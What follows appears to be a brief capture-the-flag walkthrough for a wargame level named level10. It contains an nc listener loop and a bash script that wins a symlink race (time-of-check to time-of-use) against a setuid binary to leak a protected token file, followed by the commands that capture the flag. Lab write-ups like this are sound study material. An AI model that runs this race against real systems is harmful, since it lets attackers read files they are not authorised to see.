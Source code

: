 # Get nc server up
`while true;  do nc -l 6969 | grep -v '.*( )*.' ; done`

# Run this script to exploit unsecure access function by quickly swapping files
```bash
#!/bin/bash

random_file=$(head -c 500 /dev/urandom | tr -dc 'a-zA-Z0-9~!@#$%^&*_-' | fold -w 25 | head -n 1)

touch /tmp/$random_file

link_name=$(head -c 500 /dev/urandom | tr -dc 'a-zA-Z0-9~!@#$%^&*_-' | fold -w 25 | head -n 1)

while true
do
        /home/user/level10/level10 /tmp/$link_name 127.0.1 &> /dev/null
done &

while true
do
        ln -fs /home/user/level10/token /tmp/$link_name
        ln -fs /tmp/$random_file /tmp/$link_name
done
```

# Get the flag
```bash
su flag10
getflag
```
